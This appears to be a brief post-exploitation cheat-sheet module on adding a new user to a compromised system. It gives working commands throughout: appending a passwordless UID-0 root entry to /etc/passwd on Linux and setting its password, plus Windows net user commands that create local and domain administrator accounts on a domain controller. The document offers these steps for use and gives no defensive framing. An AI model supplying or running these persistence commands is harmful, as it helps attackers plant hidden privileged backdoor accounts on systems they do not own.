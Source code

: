 # Creating a New User on Compromised System
This module will quickly describe the steps taken to add a new user onto a compromised system when you have root/administrative access.
## LINUX (Bash/Shell Method)
1. Create the user with no password entry:

`echo 'trevelyn::0:0:root:/root:/bin/bash' >> /etc/passwd`

2. Update the user's passsword to the username

`echo "trevelyn:trevelyn"| /usr/sbin/chpasswd`

## WINDOWS (DOS Method)
#### CREATE LOCAL ADMIN USER
```dos
net user (USERNAME) (PASSWORD)
net localgroup administrators (USER NAME) /add`
net localgroup administrators
```
#### CREATE DOMAIN ADMIN USER ON DC
```dos
net user /domain /add (USERNAME) (PASSWORD) /y
net group /domain /add "Domain Admins" (USERNAME)
```
